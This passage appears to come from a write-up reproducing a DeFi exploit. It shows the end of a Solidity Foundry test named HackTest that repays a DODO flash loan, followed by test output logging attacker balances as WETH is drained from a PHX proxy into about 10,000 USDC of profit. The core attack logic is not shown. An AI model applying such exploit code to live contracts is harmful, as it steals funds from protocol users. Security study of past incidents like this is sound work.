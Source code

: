 ```solidity
        emit log_named_decimal_uint("swap amounts[0]", amounts[0], 18);
        emit log_named_decimal_uint("swap amounts[1]", amounts[1], 18);
        emit log_named_decimal_uint("swap amounts[2]", amounts[2], 6);

        emit log_named_decimal_uint(
            "Attacker USDC balance after exploit:",
            USDC.balanceOf(address(this)),
            6
        );

        //归还贷款 (DODO Flash Loan 不要手续费 )
        USDC.transfer(address(DPP), 7990000000);

        emit log_named_decimal_uint(
            "Attacker USDC balance after return FlashLoan:",
            USDC.balanceOf(address(this)),
            6
        );

        emit log_named_decimal_uint(
            "Attacker WETH balance after exploit:",
            WETH.balanceOf(address(this)),
            18
        );
    }
}

```

输出

```
~ ❯ forge test --match-contract HackTest  -vv         
[⠔] Compiling...
[⠑] Compiling 1 files with 0.8.17
[⠘] Solc 0.8.17 finished in 2.16s
Compiler run successful

Running 1 test for test/hack.t.sol:HackTest
[PASS] testHack() (gas: 3381824)
Logs:
  Attacker USDC balance before exploit:: 0.000000
  Attacker WETH balance before exploit:: 1.000000000000000000
  WETH.balanceOf(address(PHX_PROXY)) before buyLeverage: : 0.000000000423128453
  WETH.balanceOf(address(PHX_PROXY)) after buyLeverage: : 11.407989927123285963
  WETH.balanceOf(address(PHX_PROXY)) after exploit: : 0.000000000000000000
  swap amounts[0]: 1000000.000000000000000000
  swap amounts[1]: 11.414989927073990725
  swap amounts[2]: 18108.937231
  Attacker USDC balance after exploit:: 18108.937231
  Attacker USDC balance after return FlashLoan:: 10118.937231
  Attacker WETH balance after exploit:: 0.993000000000000000
```


